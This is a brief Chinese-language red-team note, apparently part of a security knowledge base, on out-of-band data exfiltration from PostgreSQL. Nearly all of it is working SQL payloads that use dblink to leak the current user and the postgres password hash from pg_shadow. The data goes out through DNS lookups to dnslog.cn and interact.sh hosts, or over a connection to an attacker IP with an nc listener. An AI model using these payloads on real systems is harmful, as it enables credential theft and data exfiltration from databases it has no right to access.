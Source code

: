 ## PostgreSQL 带外数据

```sql
-- 开启 dblink 扩展
CREATE EXTENSION dblink

-- 获取当前数据库用户名称
SELECT * FROM dblink('host='||(select user)||'.djw0pg.dnslog.cn user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/21.png)

```sql
-- 查询当前密码
SELECT * FROM dblink('host='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')||'.c8jrsjp2vtc0000rwce0grjcc3oyyyyyb.interact.sh user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/34.png)

```sql
-- nc 监听
nc -lvv 4445

select dblink_connect((select 'hostaddr=x.x.x.x port=4445 user=test password=test sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/35.png)

---